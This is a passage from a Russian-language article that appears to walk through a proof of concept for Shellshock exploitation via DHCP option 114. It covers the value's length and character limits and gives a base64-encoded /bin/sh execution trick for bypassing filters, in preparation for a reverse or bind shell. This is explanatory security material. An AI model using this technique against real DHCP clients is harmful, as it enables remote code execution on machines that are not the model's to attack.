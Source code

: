 ```SRC IP: 0.0.0.0, DST IP: 255.255.255.255.```
190](https://tools.ietf.org/html/rfc3942), [191](https://tools.ietf.org/html/rfc3942), [192](https://tools.ietf.org/html/rfc3942), [193](https://tools.ietf.org/html/rfc3942), [194](https://tools.ietf.org/html/rfc3942), [195](https://tools.ietf.org/html/rfc3942), [196](https://tools.ietf.org/html/rfc3942), [198](https://tools.ietf.org/html/rfc3942), [199](https://tools.ietf.org/html/rfc3942), [200](https://tools.ietf.org/html/rfc3942), [201](https://tools.ietf.org/html/rfc3942), [202](https://tools.ietf.org/html/rfc3942), [203](https://tools.ietf.org/html/rfc3942), [204](https://tools.ietf.org/html/rfc3942), [205](https://tools.ietf.org/html/rfc3942), [206](https://tools.ietf.org/html/rfc3942), [207](https://tools.ietf.org/html/rfc3942), [208](https://tools.ietf.org/html/rfc5071), [209](https://tools.ietf.org/html/rfc5071), [210](https://tools.ietf.org/html/rfc5071), [211](https://tools.ietf.org/html/rfc5071), [212](https://tools.ietf.org/html/rfc5969#section-7.1.1), [213](https://tools.ietf.org/html/rfc5986#section-3.2), 214, 215, 216, 217, 218, 219, [220](https://tools.ietf.org/html/rfc6656#section-3), [221](https://tools.ietf.org/html/rfc6607#section-3.1), [222](https://tools.ietf.org/html/rfc3942), [223](https://tools.ietf.org/html/rfc3942), 224, 225, 226, 227, 228, 229, 230, 231, 232, 233, 234, 235, 236, 237, 238, 239, 240, 241, 242, 243, 244, 245, 246, 247, 248, 250, 251, 253.

В нашем PoC мы будем использовать DHCP-опцию с кодом 114 ([URL](https://tools.ietf.org/html/rfc3679#section-3.2.3)). Почему? Потому, что ее длина - вариативна (максимальная длина — 256 байт), а также потому, что ее [все](https://xakep.ru/2014/09/26/shellshock-dhcp/) используют. Ее описание еще есть [здесь](https://teamwork.gigaset.com/gigawiki/display/GPPPO/DHCP+option+114). Существует даже [статья](https://news.ycombinator.com/item?id=8372040) о том, как с помощью этой опции обновить уязвимые к shellshock системы :)

### Какие у нас ограничения?
**Ответ:** их много, слишком много!
1. Длина — 256 байт
2. Возможно использовать только команды интерпретатора
3. Большое ограничение на используемые символы: некоторые фильтруются, некоторые экранируются. Это зависит от клиента DHCP. Вот набор символов, которые не везде получится использовать: ```"';&|```
4. После выполнения команды, IPv4-адрес может не присвоиться, в таком случае возможно использовать IPv6 link-local-адрес, если на интерфейсе не включено игнорирование IPv6
5. Необходимо использовать абсолютные пути, иначе команда может не выполниться

### И что тогда делать?
**Ответ:** обходить ограничения!
Для обхода фильтра мы должны выполнить все одной командой. Сделаем это так: 

```bash
/bin/sh <(/usr/bin/base64 -d <<< Base64String)
```

Здесь на вход интерпретатора **/bin/sh** мы подаем вывод **/usr/bin/base64**, которая декодирует строку **Base64String**. Таким образом, мы использовали уже 34 байта, длина Base64String не должна превышать **222** байтов.

А что будет в Base64String? Не забываем про четвертое ограничение, поэтому в первую очередь выставим IP-адрес интерфейсу командой:

```bash
/bin/ip addr add <IP>/<MASK> dev eth0;
```

Эта команда накладывает на нас еще одно ограничение: мы должны знать имя интерфейса, которому выставляем IP-адрес. По умолчанию, в старых версиях Linux, на которых еще есть shellshock, первый сетевой интерфейс называется **eth0**, так что ориентируемся на него. Еще в эту строку мы должны поместить reverse shell или bind shell.
